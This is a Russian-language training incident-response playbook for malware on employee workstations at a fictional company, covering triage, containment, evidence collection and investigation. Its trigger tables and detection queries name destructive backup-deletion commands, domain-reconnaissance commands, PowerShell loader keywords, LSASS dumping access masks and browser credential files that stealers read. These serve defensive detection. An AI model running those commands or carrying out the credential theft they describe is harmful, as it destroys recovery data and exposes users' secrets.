

# PB-04 Вредоносное ПО на рабочей станции

> Учебный плейбук для вымышленной компании «Альфа-Трейд». Опирается на IR-план (`source/ir-plan.md`): роли, уровни P1–P4, полномочия и ритм статусов берутся оттуда.
>
> Обозначения: **[проверить]** — факт зависит от версии продукта, редакции закона или каталога ATT&CK, сверить с первоисточником; **[учебное]** — цифра или правило придуманы для учебного примера.
>
> **Главное правило:** «антивирус удалил» — это начало проверки, а не её конец. Решает не то, удалил ли АВ файл, а то, **выполнился ли код и что он успел сделать**.

## 1. Паспорт плейбука

| Поле | Значение |
| --- | --- |
| ID | PB-04 |
| Версия | 1.0 (дата: ____, следующий пересмотр: через 6 месяцев или после P1/P2 по этому сценарию) |
| Владелец | Руководитель ИБ (IM). Исполнители: L1, L2 |
| Критичность по умолчанию | **P3** (подтверждён запуск на одной рядовой станции). Понижение до P4: файл заблокирован до выполнения, следов запуска нет. Повышение до P2/P1: см. матрицу в разделе 5.3. Критичность берётся по худшему признаку и пересматривается по ходу расследования |
| Уточнение к IR-плану | В таблице плана P3 — «антивирус не удалил файл», P4 — «антивирус удалил вложение». PB-04 уточняет критерий: **выполнился / не выполнился**. Пример в плане стоит поправить |
| MITRE ATT&CK (ключевые) | Initial Access: T1566.001/.002 Phishing, T1189 Drive-by Compromise, T1091 Removable Media. Execution: T1204.001/.002 User Execution, T1204.004 Malicious Copy and Paste (ClickFix) **[проверить номер]**, T1059.001 PowerShell. Defense Evasion: T1218 (.005 Mshta, .007 Msiexec, .010 Regsvr32, .011 Rundll32), T1574.002 DLL Side-Loading **[проверить: в v17 могла быть объединена с T1574.001]**, T1562.001 Disable or Modify Tools. Persistence: T1547.001 Run Keys, T1053.005 Scheduled Task, T1543.003 Windows Service, T1546.003 WMI Subscription. Credential Access: T1555.003 Credentials from Web Browsers, T1539 Steal Web Session Cookie, T1003.001 LSASS Memory. C2: T1071.001 Web Protocols, T1105 Ingress Tool Transfer, T1219 Remote Access Software, T1102 Web Service. Exfiltration: T1041, T1567.002. Полный список «что где искать» — в разделе 8 |
| Связанные плейбуки | PB-S3 (сработка АВ), PB-S4 (сработка EDR) — до подтверждения; PB-01 (фишинг) — вектор почта; PB-02 (шифровальщик) — предвестники; PB-03 / PB-10 (компрометация учётки / облачной учётки) — украденные учётные данные; PB-05 (утечка) — ПДн; PB-07 (нарушение сотрудником) — нелегальный софт, свой RMM; PB-08 (взлом веб-приложения) — украден доступ к админке сайта; PB-09 (утеря устройства) |
| Целевые сроки по фазам **[учебное]** | См. таблицу ниже |

| Контрольная точка | P1 | P2 | P3 | P4 |
| --- | --- | --- | --- | --- |
| Начало работы (по IR-плану) | 15 мин, 24/7 | 1 ч | 4 ч | 1 рабочий день |
| L1 закончил триаж и эскалировал | 15 мин | 30 мин | 1 ч | — |
| Решение об изоляции после подтверждения | немедленно | ≤ 15 мин | ≤ 1 ч | не требуется |
| Летучие данные и триаж-пакет собраны | ≤ 1 ч от изоляции | ≤ 1 ч | ≤ 4 ч | — |
| Сессии отозваны, пароли сменены | ≤ 1 ч | ≤ 1 ч от подозрения на кражу | ≤ 1 рабочий день (если нужно) | — |
| Скоупинг по всем осям | ≤ 4 ч | ≤ 4 ч | ≤ 1 рабочий день | по хешу и письму ≤ 1 рабочий день |
| Переустановка и возврат пользователя | по плану IM | ≤ 1 рабочий день | ≤ 2 рабочих дней | — |
| Статус IM руководству | каждые 2 ч | дважды в день | при закрытии | — |

## 2. Назначение и область применения

**Цель:** подтвердить или опровергнуть выполнение вредоносного кода на рабочей станции, остановить его, найти все затронутые хосты и учётные данные, удалить причину, вернуть сотрудника к работе на чистом устройстве и закрыть путь проникновения.

**Входит:**
- рабочие станции и ноутбуки сотрудников под Windows (основной случай); macOS и Linux-станции разработчиков — по тем же фазам, но с другими артефактами;
- офисные и удалённые устройства (VPN, в том числе split tunnel, и вне VPN);
- классы ВПО: загрузчики, инфостилеры, RAT и C2-импланты, майнеры, вредоносные расширения браузера, неразрешённые RMM-средства, PUA/adware (по упрощённой ветке F);
- векторы: почта, веб (malvertising, SEO-отравление, поддельные обновления браузера), ClickFix, мессенджеры, USB, нелегальный софт.

**Не входит (переход в другой плейбук):**

| Признак | Куда |
| --- | --- |
| Сработка ещё не подтверждена как TP | PB-S3 / PB-S4, затем сюда |
| Заражён сервер (AD, 1С, база, файловый сервер) | Отдельный сценарий / PB-02; минимум P2, изоляция сервера только с согласия IM и владельца системы |
| Шифрование, `vssadmin delete shadows`, `wbadmin delete catalog`, `bcdedit /set recoveryenabled no`, массовое переименование | PB-02, P1 |
| Ручная работа оператора, движение к серверам | PB-02 (предвестник), P1/P2, ведёт IM |
| Использование украденных учёток (входы из нетипичных стран, новые MFA-методы, правила пересылки) | Параллельно PB-03 / PB-10 |
| Признаки выгрузки ПДн клиентов | Параллельно PB-05, DPO немедленно |
| Потерянное или украденное устройство | PB-09 |

## 3. Триггеры и источники обнаружения

Запросы в таблице и ниже — **примеры на нейтральном псевдо-SPL/KQL**: они показывают логику. Вендоры SIEM и EDR в «Альфа-Трейд» не названы; для MaxPatrol SIEM, KUMA и др. запросы нужно переписать под их синтаксис и поля. Доступность Event ID зависит от политики аудита и того, что реально собирает SIEM **[проверить]**.

| Источник | Что видим | Поля / Event ID | Пример правила или запроса (пример) | Стартовая критичность [учебное] |
| --- | --- | --- | --- | --- |
| Антивирус | Детект при записи файла в `Downloads` / вложение, действие «удалён / карантин», процесса нет | имя детекта, тип (malware / PUA / HackTool), `file_path`, `sha256`, `action`; для Defender 1116 / 1117 | `av where action in (quarantined, deleted) and path matches "\\Downloads\\|\\Outlook\\"` | P4 |
| Антивирус | Детект в `%AppData%`, `%LocalAppData%\Temp\<random>`, `%ProgramData%`, `C:\Users\Public` или в памяти; действие «не выполнено / ошибка лечения» (Defender 1118 / 1119); повтор семейства за 7 дней | то же + `process_name`, `parent` | `av where path matches "AppData|Temp|ProgramData|Users\\Public" or action = failed` | P3 |
| Антивирус | HackTool: Mimikatz, Rubeus, AdFind, Impacket, SharpHound | имя детекта | `av where detection_type = HackTool` | P2 |
| АВ / EDR | Отключена защита, добавлено исключение, агент остановлен или «пропал» | Defender 5001 / 5007, tamper-события EDR, `last_seen` | `edr_health where last_seen > 2h and host in active_hosts` | P2 |
| EDR / Sysmon | Офисное приложение, архиватор, браузер или `explorer.exe` запускает интерпретатор или LOLBin с подозрительной командной строкой | Sysmon 1 / Security 4688: `ParentImage`, `Image`, `CommandLine`, `User`, `Hashes` | см. запрос Q1 | P3 |
| EDR / реестр | ClickFix: команда в окне Win+R | Sysmon 13: `TargetObject` содержит `\Explorer\RunMRU`, `Details` | см. запрос Q2 | P3 (P2 при сетевой активности) |
| EDR / PowerShell | Загрузчик в памяти | 4104: `ScriptBlockText` с `FromBase64String`, `DownloadString`, `IEX`, `Reflection.Assembly` | `ps4104 where text has_any (...)` | P3 |
| EDR / Sysmon | Доступ к памяти LSASS | Sysmon 10: `TargetImage=lsass.exe`, `GrantedAccess`, `SourceImage` | см. запрос Q4 | P2 (P1 на хосте администратора) |
| EDR | Инфостилер: не-браузер читает `Login Data`, `Cookies`, `Local State` | файловые события EDR, Sysmon 11 (ограниченно) **[проверить, есть ли события чтения в вашем EDR]** | см. запрос Q5 | P2 |
| EDR | Фреймворк пост-эксплуатации (Cobalt Strike, Sliver, Brute Ratel), разведка домена (`nltest /dclist`, `net group "domain admins" /domain`, AdFind) | детект EDR, 4688 / Sysmon 1 | `proc where cmd has_any ("nltest","domain admins","adfind")` | P2 → оценка P1, PB-02 |
| EDR / инвентаризация | Неразрешённое RMM: AnyDesk, ScreenConnect, RustDesk и др. | установка ПО, 7045, контроль приложений NGFW | `proc where name in rmm_list and name not in allowed_rmm` | P3 (P2 при входящих сессиях) |
| NGFW / прокси | Успешные соединения к C2 из TI, маячковый трафик | `src_ip`, `dst_ip`, `dst_port`, `url` / `sni`, `app`, `action`, `bytes_out` | см. запрос Q6 | P3; P2 при `action=allowed` и регулярном маячковании |
| DNS | Запрос к домену из TI, DGA-подобные и свежезарегистрированные домены, пулы майнинга | `query`, `src_ip`, Sysmon 22 `QueryName` + `Image` | `dns where query in ti_domains` | P4 / P3 по контексту (только DNS без соединения — не P2) |
| Почтовая песочница | Вердикт «вредоносное» по уже доставленному и открытому письму (ретроспективный) | `message_id`, получатели, вложение | — | P3, параллельно PB-01 |
| Облачная почта / WAF / админка сайта | Вход под учёткой сотрудника с чужого IP или нового устройства — следствие стилера | IP, страна, ASN, user-agent, устройство | — | P2, обратный путь в PB-04 |
| Внешние | НКЦКИ, CERT вендора, сервис мониторинга утечек (логи стилеров с доменом компании) | — | — | P2 |
| Пользователь / Service Desk | «Открыл файл — ничего не произошло», «вставил команду с сайта», «появилось окно» | — | — | P3 до проверки |

**Примеры запросов (адаптировать: окно времени, индексы и поля условные).**

```text
-- Q1. Родитель-офис/браузер/explorer -> интерпретатор (псевдо-KQL)
ProcessEvents | where Time > ago(7d)
| where ParentName in~ ("winword.exe","excel.exe","outlook.exe","onenote.exe","winrar.exe","7zfm.exe",
                        "explorer.exe","chrome.exe","msedge.exe","firefox.exe","browser.exe")
| where Name in~ ("powershell.exe","pwsh.exe","cmd.exe","wscript.exe","cscript.exe","mshta.exe",
                  "rundll32.exe","regsvr32.exe","msiexec.exe","certutil.exe","bitsadmin.exe","curl.exe")
| where CommandLine has_any ("-enc","-w hidden","iex","iwr","DownloadString","FromBase64String","http")
| project Time, Host, User, ParentName, Name, CommandLine
-- explorer.exe -> powershell шумит (ярлыки, админы): без фильтра по командной строке не использовать.

-- Q2. ClickFix: что вводилось в Win+R
RegistryEvents | where Time > ago(30d)
| where Key has @"\Explorer\RunMRU"
| where Value has_any ("powershell","mshta","curl","cmd /c","http","bitsadmin")

-- Q3. Распространённость: хеш ИЛИ имя+путь (загрузчики часто уникальны под жертву)
FileEvents | where Time > ago(30d)
| where SHA256 == "<sha256>" or (FileName =~ "<name>" and FolderPath has "<dir>")
| summarize first=min(Time), last=max(Time), hosts=dcount(Host) by FileName, FolderPath, SHA256
```

```text
-- Q4. Доступ к LSASS (псевдо-SPL, Sysmon 10)
index=sysmon EventCode=10 TargetImage="*\\lsass.exe"
  NOT SourceImage IN ("*\\MsMpEng.exe","*\\<агент_EDR>.exe")
| table _time host SourceImage GrantedAccess
-- GrantedAccess 0x1010, 0x1410, 0x1FFFFF типичны для дамперов; исключения строить по своей среде.

-- Q5. Инфостилер: не-браузер трогает профиль браузера
FileEvents | where FolderPath has_any (@"\User Data\Default\Login Data", @"\Network\Cookies", @"\User Data\Local State")
| where ProcessName !in~ ("chrome.exe","msedge.exe","firefox.exe","browser.exe")

-- Q6. Маякование с хоста (грубая эвристика: CDN, апдейтеры и мессенджеры тоже регулярны)
index=ngfw src_ip=<HOST_IP> action=allowed earliest=-24h
| sort 0 _time | streamstats current=f last(_time) as prev by dest_ip
| eval delta=_time-prev
| stats count avg(delta) as avg stdev(delta) as sd sum(bytes_out) as out by dest_ip, dest_port
| where count>20 AND sd < avg*0.2
```

## 4. Роли и RACI

R — выполняет, A — утверждает и отвечает, C — консультирует, I — информируется. Полномочия по IR-плану: **L2 сам изолирует одну рабочую станцию и блокирует один внешний IP**; всё сверх этого — IM.

| Действие | L1 | L2 | IM | ИТ | Владелец системы / рук. подразделения | Юрист/DPO | PR | Директор |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| Триаж, тикет, вердикт TP/FP | R | A | — | — | — | — | — | — |
| Закрытие как FP, предложение исключения | R | A | — | — | — | — | — | — |
| Присвоение P4/P3 | R | A | — | — | — | — | — | — |
| Присвоение P2/P1 | C | R | A | — | — | — | — | I (P1) |
| Изоляция одной рядовой станции | I | R/A | I | I | I | — | — | — |
| Изоляция >1 хоста, VIP, «особого» ПК, ПК бизнес-процесса | — | R | A | C | C | — | — | — |
| Блок явно вредоносного хеша / домена / одного IP | — | R/A | I | — | — | — | — | — |
| Блок легитимного сервиса, CDN, облака | — | R | A | C | C | — | — | — |
| Сбор памяти, триаж-пакета, образца | — | R/A | I | C | — | — | — | — |
| Полный образ диска для правоохранителей | — | R | A | C | — | C | — | I |
| Отзыв сессий, смена пароля, проверка MFA | — | A (инициирует) | I | R | C | — | — | — |
| Смена привилегированных учёток, krbtgt | — | C | A | R | — | — | — | — |
| Действия по банк-клиенту и ключам ЭП | — | C | A | — | R (бухгалтерия, финдиректор) | C | — | I |
| Оценка затрагивания ПДн, уведомление РКН | — | C | R | — | C | A (по решению директора/IM) | — | A (P1) |
| Переустановка ОС, подменный ноутбук | — | A (подтверждает сбор улик) | I | R | I | — | — | — |
| Снятие изоляции | — | R/A (P3); R (P2+) | A (P2+) | C | I | — | — | — |
| Сообщение сотрудникам при массовом векторе | — | C | A | — | — | — | R | — |
| Закрытие инцидента | — | R/A (P3–P4) | A (P1–P2) | C | — | C (если ПДн) | — | — |

> **Открытый вопрос к IR-плану.** Ночью при активном C2 ждать L2 до часа долго. Предложение: разрешить L1 изолировать **одну** рабочую станцию по жёстким критериям (запуск подтверждён + успешные соединения с C2 или признаки стилера) с немедленным звонком L2. Сейчас план этого не позволяет — это изменение плана, решает IM.

## 5. Триаж (первые 15–30 минут)

### 5.1 Немедленные действия L1 и запреты

1. Завести тикет. Время сработки и начала работы — **в UTC** (в отчёте дублировать UTC+3, как в шаблоне IR-плана).
2. Проверить в консоли EDR, что агент на хосте онлайн и когда последний раз выходил на связь. Офлайн → ветка H (раздел 6).
3. Определить, был ли запуск (5.2, шаг 6). Запуск подтверждён и есть хотя бы один признак P2 → **позвонить** дежурному L2, а не только оставить тикет.
4. Не связываться с пользователем через его почту или мессенджер на этом устройстве — только по телефону.

**Запрещено до разрешения L2:**
- [ ] перезагружать или выключать хост, отключать питание;
- [ ] запускать полное сканирование, «лечение», вручную удалять файлы;
- [ ] переустанавливать ОС или отдавать ПК в Service Desk по заявке «тормозит»;
- [ ] загружать **файл** (а не хеш) в VirusTotal и публичные песочницы;
- [ ] блокировать IP общего назначения (CDN, облака, Telegram API, GitHub);
- [ ] менять пароль пользователя с этого хоста или до изоляции;
- [ ] входить на хост по RDP или локально под доменным администратором.

### 5.2 Пошаговые проверки

| № | Вопрос | Где смотреть | Что считать признаком |
| --- | --- | --- | --- |
| 1 | Что сработало и какое действие выполнило СЗИ? | Консоль АВ/EDR, тикет SIEM | «Удалён / карантин» до запуска — мягче; «обнаружен, действие не выполнено», «ошибка лечения», «процесс завершён» — код работал |
| 2 | Какой тип детекта? | Имя детекта | Malware / Trojan / Stealer — полная обработка; PUA / adware / not-a-virus — ветка F; HackTool — P2; EICAR от ИТ — FP |
| 3 | Агент здоров? | EDR: `last_seen`, политика, tamper-события; Defender 5001 / 5007 | Пропавшая телеметрия, отключённая защита, новые исключения — P2 |
| 4 | Где лежит файл? | Путь из детекта | `Downloads`, кэш браузера, `Temp\Outlook` — вероятно, не запускался; `%AppData%`, `%LocalAppData%\Temp\<random>`, `%ProgramData%`, `C:\Users\Public` — запускался или распаковывался |
| 5 | Откуда пришёл? | Родитель в дереве процессов; Zone.Identifier (`HostUrl`, `ReferrerUrl`; Sysmon 15); трассировка почты; NGFW/прокси | `outlook.exe` → почта (PB-01); браузер → веб; `explorer.exe` + `powershell`/`mshta` без файла → ClickFix; съёмный диск → USB; `telegram.exe` → мессенджер. Нет Zone.Identifier у файла из ISO/архива → обход MotW (T1553.005) |
| 6 | Выполнялся ли? | EDR process create; Sysmon 1 / 4688; Prefetch; RunMRU; 4104 | Есть событие процесса из файла или дочерние процессы → **да**. Детект только при записи, процесса и дочерних файлов нет → вероятно, нет. Неясно → **считать «да»** |
| 7 | Что сделал после запуска? | Дерево процессов, сетевые, файловые и реестровые события EDR | Дочерние LOLBins, загрузка файлов, запись в Run/задачи/службы, обращения к профилю браузера, к LSASS, разведка |
| 8 | Была ли сеть? | EDR, NGFW, DNS после времени запуска | Только DNS или только `action=blocked` → P3 с анализом. Повторяющиеся `allowed` с ненулевым `bytes_out` → P2 |
| 9 | Репутация? | TI, VirusTotal — **только поиск по хешу, домену, IP** | «0 детектов» и «хеш неизвестен» **не означают «чисто»**: решение по поведению |
| 10 | Есть ли ещё такие? | SIEM/EDR за 30 дней: хеш, имя+путь, домен, командная строка (Q3) | >1 хоста → P2 |
| 11 | Кто пользователь и что за хост? | CMDB / список «особых» рабочих мест, AD | Админ домена, ИТ/ИБ, бухгалтерия с банк-клиентом, руководство, разработчик, доступ к базе клиентов / 1С / админке сайта — не ниже P2 при подтверждённом запуске |
| 12 | Не FP ли это? | Подпись, вендор, заявки ИТ | Подписанный известный файл с документированным поведением; EICAR от ИТ; утилита администрирования по заявке → FP. Исключение утверждает L2, не L1 |

**Поля тикета, обязательные к концу триажа:**

```text
Хост: имя, IP, ОС, офис/удалёнка/VPN, статус агента EDR/АВ (онлайн, last seen)
Пользователь: логин, отдел, локальный админ?, привилегированные группы?, доступ к ПДн/1С/сайту/банк-клиенту
Сработка: источник, правило, время (UTC), детект (семейство, тип), действие СЗИ
Файл: путь, имя, SHA256, подпись, размер, источник (Zone.Identifier / письмо / URL / USB)
Процессы: родитель -> процесс -> потомки, командные строки
Сеть: домены/IP/URL после запуска, allowed/blocked, bytes_out
Распространённость: число хостов по хешу / имени+пути / домену / командной строке
Вердикт: TP / FP / Benign TP + обоснование; ветка A–H
Критичность: P_ и признак, по которому присвоена
Эскалация: кому, время, канал
```

### 5.3 Матрица критичности (по худшему признаку)

| Признак | Уровень |
| --- | --- |
| Заблокировано до выполнения, следов запуска нет, хост рядовой, других хостов нет | P4 |
| PUA / adware, установленное пользователем, без вреда (Benign TP) | P4 |
| Запуск подтверждён, один хост, нет успешного C2, нет кражи учётных данных, закрепление не найдено; майнер на рядовом хосте | P3 |
| Успешный C2 или загрузка второй стадии; инфостилер (подтверждён или вероятен); HackTool; отключение защиты; закрепление; >1 хоста | P2 |
| «Особый» хост или пользователь при подтверждённом запуске | не ниже P2 |
| Доступ к LSASS / кража учётных данных на ПК администратора, признаки доступа к AD (DCSync) | P1 |
| Предвестники шифровальщика: C2-фреймворк + разведка домена + отключение защиты, движение к серверам | P1, PB-02 |
| Признаки выгрузки ПДн клиентов (файлы выгрузок, украденный и использованный доступ к базе/админке) | P1, PB-05, DPO |

### 5.4 Дерево решений



**Вердикты:** **FP** — закрыть с обоснованием и предложением тюнинга. **Benign TP** — PUA/adware без вреда: удалить, P4, сообщить руководителю и ИТ о нарушении политики ПО (при нелегальном софте или своём RMM — возможно PB-07). **TP без ущерба** — ветка A: заблокировано до выполнения, P4. **Инцидент** — ветки B–E, P3–P1.

### 5.5 Критерии эскалации

- L1 → L2 **звонком, немедленно**: любой подтверждённый или неясный запуск, «особый» хост, HackTool, отключение защиты, агент офлайн при признаках заражения. Не ждать ответов на все вопросы.
- L2 → IM (≤ 15 мин): P2 и выше; >1 хоста; изоляция VIP или ПК бизнес-процесса; блок легитимного сервиса; признаки кражи учётных данных или ручной работы.
- IM → директор и юрист/DPO: P1; **любое обоснованное подозрение на затрагивание ПДн** — сразу, не дожидаясь форензики.
- Сомнение между двумя уровнями — выбирать более высокий и понижать по фактам.

## 6. Сдерживание

**Тип атаки определяет тактику.** Товарный ВПО (массовый загрузчик, стилер, майнер) сдерживают сразу. При признаках ручной работы оператора (ветка D) частичное сдерживание опасно: атакующий перейдёт на резервный канал и ускорит шифрование. Тогда IM за несколько часов определяет масштаб и назначает **одно окно** одновременного сдерживания всех хостов и учёток.

### 6.1 Краткосрочное сдерживание

| № | Шаг | Ответственный | Инструмент | Апрув |
| --- | --- | --- | --- | --- |
| 1 | Зафиксировать дерево процессов и сетевые события (экспорт / скриншоты в тикет) | L2 | Консоль EDR | — |
| 2 | Решить порядок «изоляция ↔ память»: активный C2, ручная работа, выгрузка данных → **сначала изоляция** (секунды; память она не стирает). Нет сетевой активности, хост рядовой → сначала память и летучие данные (5–15 мин), потом изоляция | L2 | — | — |
| 3 | Изолировать хост (канал EDR сохраняется) | L2 | EDR network isolation | L2 — одна рядовая станция; IM — >1 хоста, VIP, ПК бизнес-процесса (если согласие руководителя не получено за 15 мин при P2 — решает IM) |
| 4 | Позвонить пользователю (шаблон в разделе 11) | L2 / ИТ | Телефон | — |
| 5 | Получить образец (карантин / file retrieval), посчитать SHA256, **затем** блокировать хеш | L2 | EDR, АВ | — |
| 6 | Не завершать вредоносный процесс до дампа памяти, если это не увеличивает риск | L2 | EDR | — |
| 7 | Заблокировать домены и URL (в первую очередь), затем IP — только если не CDN/облако | L2 | NGFW, прокси, DNS-фильтр, сетевые IOC в EDR (если умеет) **[проверить]** | L2 — явно вредоносные, один IP; IM — легитимные сервисы и CDN |
| 8 | Вектор почта: блок отправителя/вложения, удаление письма у всех получателей | L2 | Почтовый шлюз, облачная почта | — (PB-01) |
| 9 | Учётные данные — по ветке, **только после изоляции, только с чистого устройства** (6.2) | ИТ по заявке L2 | AD, облачная почта, VPN, LAPS | IM — привилегированные учётки |

### 6.2 Учётные данные и сессии по веткам

- **A (P4):** не требуется.
- **B, F (P3/P4):** доменный пароль пользователя — по решению L2.
- **C, E (P2):** ИТ с чистого устройства:
  1. отзывает все сессии и токены в облачной почте, SSO, VPN и меняет доменный пароль (одновременно; смена пароля сама по себе не обязательно отзывает токены — **[проверить поведение облачной почты «Альфа-Трейд»]**);
  2. проверяет методы MFA, правила пересылки, делегирование, подключённые OAuth-приложения, входы за 14 дней (PB-03 / PB-10);
  3. L2 составляет **список сервисов** из хранилищ паролей браузера (только названия сайтов, сами пароли не извлекать **[проверить по ЛНА]**) и из интервью: админка сайта, маркетплейсы, платёжный агрегатор, рекламные кабинеты, хостинг, DNS-регистратор, 1С, банк-клиент — передаёт владельцам систем на смену паролей;
  4. меняет VPN-учётку/сертификат устройства и пароль локального администратора (LAPS).
- **D (P1/P2):** всё из C/E + все учётки, входившие на хост за 30 дней (4624, типы 2/10/11), прежде всего привилегированные. Нужна ли двойная смена krbtgt — решают IM и ИТ по PB-02 / PB-03.
- **Бухгалтерия с банк-клиентом / ключами ЭП:** бухгалтерия немедленно звонит в банк — приостановить исходящие платежи, отозвать и перевыпустить ключи по процедуре банка, проверить платежи за период. Решает IM с финансовым директором.
- Пользователю: сменить с **другого** устройства пароли личных сервисов, если вводил их на этом ПК.

### 6.3 Ветка H: хост офлайн, вне VPN или без EDR

1. Заблокировать учётку в VPN, отозвать сессии (6.2), заблокировать устройство условным доступом в облачной почте (если есть).
2. Заблокировать IOC на NGFW, DNS, прокси; при активной VPN-сессии — разорвать её.
3. Позвонить пользователю: «Отключите Wi-Fi или кабель, **не выключайте** ноутбук, передайте его в ИТ».
4. Поставить в EDR изоляцию при выходе на связь, если продукт это поддерживает **[проверить]**.
5. Помнить: блок на NGFW не защищает ноутбук вне VPN или при split tunnel.

### 6.4 Долгосрочное сдерживание

- Хост остаётся изолированным до переустановки; переустановка — физически или в изолированном сегменте, а не возвратом в рабочую сеть.
- Временные правила NGFW/DNS на IOC и категорию источника; правило на почтовом шлюзе на тип вложения.
- Повышенный уровень наблюдения за учётками пользователя и всеми, кто входил на хост (входы с новых IP/устройств).
- Если вредонос вернулся после изоляции или на другом хосте — новая итерация скоупинга, пересмотр уровня.

### 6.5 Что НЕ делать

- Не блокировать IP CDN и облачных сервисов без IM — отрежете легитимные сервисы, в том числе нужные магазину.
- Не блокировать хеш до получения образца: карантин или удаление может уничтожить единственный экземпляр.
- Не изолировать при P4 (заблокировано до выполнения) и не сбрасывать «всё всем» — лишний простой бизнеса.
- Не блокировать IOC по одному при признаках целевой атаки — только одно окно по команде IM.
- Не снимать изоляцию с хоста «как есть», до переустановки.

## 7. Сбор и сохранение артефактов

Принцип: **собирать средствами EDR (live response, сбор пакета), а не руками на хосте**; инструменты — только с доверенного ресурса с проверенными хешами; результаты писать в консоль EDR или в хранилище улик, **не на диск хоста**. Каждую команду и её время фиксировать в тикете. Порядок — по убыванию летучести (RFC 3227).

| Порядок | Артефакт | Как собрать | Когда обязательно |
| --- | --- | --- | --- |
| 1 | Телеметрия EDR: дерево процессов, сеть, файлы, реестр | Экспорт из консоли (хранение телеметрии 7–30 дней — **[проверить у вендора]**) | Всегда |
| 2 | Дамп памяти | Функция EDR, WinPmem, DumpIt, Magnet RAM Capture **[проверить совместимость с EDR и политикой]**; до перезагрузки, полного сканирования и завершения процесса | Любой подтверждённый запуск неоднозначного семейства, пока хост не перезагружался (с P3); при P2+ всегда |
| 3 | Процессы, сетевые соединения, DNS-кэш | `Get-CimInstance Win32_Process` (PID, PPID, CommandLine), `Get-NetTCPConnection`, `Get-DnsClientCache` → CSV в хранилище | Запуск подтверждён |
| 4 | Автозапуск | `autorunsc64.exe -accepteula -a * -c -h -s -m` **[флаги сверить с `autorunsc -?`]**; задачи, службы, WMI-подписки (`root\subscription`: `__EventFilter`, `CommandLineEventConsumer`, `__FilterToConsumerBinding`); `Get-MpPreference` (исключения) | Запуск подтверждён |
| 5 | Триаж-пакет диска | KAPE (target класса `!SANS_Triage`) или Velociraptor offline collector **[синтаксис по версии]**: `.evtx`, Prefetch, Amcache, SYSTEM (ShimCache, BAM), NTUSER.DAT (RunMRU, UserAssist), SRUM, `$MFT`, `$UsnJrnl:$J`, LNK и Jump Lists, профили браузеров (History, расширения), `ConsoleHost_history.txt`, `%AppData%`, `%LocalAppData%\Temp`, `%ProgramData%`, `C:\Users\Public`, папки Startup, карантин АВ, MPLog | P3 и выше, до переустановки |
| 6 | Образец ВПО | Из карантина АВ / EDR; архив с паролем `infected`; анализ только в изолированной песочнице (почтовая песочница компании) | Всегда, если файл есть |
| 7 | Полный образ диска | FTK Imager или аналог; до переустановки | P1 или если IM с юристом допускают обращение в полицию (ст. 272–273 УК РФ) |
| 8 | Внешние журналы | Выгрузки NGFW, DNS, прокси, облачной почты, VPN, DC (4624/4625/4768/4769/4776) за окно инцидента | Всегда при P3+ |

**Цепочка хранения (chain of custody)** — таблица в тикете для каждой улики:

| Улика | Источник (хост, путь) | Кто снял | Когда (UTC) | Инструмент | SHA256 | Где хранится | Кто получал доступ |
| --- | --- | --- | --- | --- | --- | --- | --- |

- Хранилище улик ИБ с ограниченным доступом и журналом доступа; не общий диск, не машина аналитика.
- Срок хранения улик определяет IM (с юристом при P1).
- На рабочей станции есть личные данные сотрудника: основание доступа (ЛНА об использовании корпоративных устройств, уведомление о мониторинге) зафиксировать в тикете, сбор ограничить целью расследования **[формулировки ЛНА уточнить у юриста]**.

## 8. Расследование

L2 отвечает на вопросы и записывает каждый ответ с источником (событие или артефакт). «Да» или «не исключено» по вопросам 6, 9, 10 → сразу IM; по вопросу 10 — ещё и DPO.

| № | Вопрос | Источники |
| --- | --- | --- |
| 1 | Что именно выполнилось, когда, под какой учёткой, с какими правами? | EDR, Sysmon 1 / 4688, Prefetch (до 8 времён запуска; для DLL/скриптов — `RUNDLL32.EXE-*.pf`, `MSHTA.EXE-*.pf`), Amcache (наличие ≠ запуск), ShimCache (не доказывает запуск на современных Windows **[проверить]**), BAM, UserAssist |
| 2 | Вектор: письмо, URL, ClickFix, USB, мессенджер, нелегальный софт, эксплуатация уязвимости? Кто ещё получил/посетил? | Почтовый шлюз и песочница, история браузера, Zone.Identifier, RunMRU, `ConsoleHost_history.txt`, setupapi.dev.log, NGFW/прокси, интервью |
| 3 | Хронология: когда **первое** появление (не первая сработка)? | `$MFT`, `$UsnJrnl`, EDR, SIEM; окно поиска — минимум 7 дней до первого появления, скоупинг — 30 дней |
| 4 | Что сделал ВПО: дочерние процессы, загрузки (T1105), закрепление, изменения защиты? | Autoruns, 4698 / 4702, TaskScheduler 106/140/200, 7045 / 4697, WMI-Activity 5861, Sysmon 12/13/19–21, Defender 5001/5007, 1102 / 104 (очистка журналов) |
| 5 | Была ли сеть: домены, IP, интервалы, объём исходящего трафика? | NGFW, прокси, DNS, Sysmon 3/22, SRUM (трафик по приложениям ~30 дней), память (`windows.netscan`) |
| 6 | Украдены ли учётные данные: LSASS, `Login Data` / `Cookies` / `Local State`, мессенджеры, VPN-конфиги, кейлоггер? | Sysmon 10, файловые события EDR, память (`windows.malfind`, `windows.cmdline`), семейство по TI |
| 7 | Кто входил на хост за 30 дней (4624 тип 2/10/11, 4648)? Есть ли привилегированные? | Security на хосте, SIEM, TerminalServices 21/24/25/1149 |
| 8 | Было ли движение с хоста: 4624 тип 3/10 с его IP на других хостах, 7045 / 4698 на соседях? | DC и серверы, EDR |
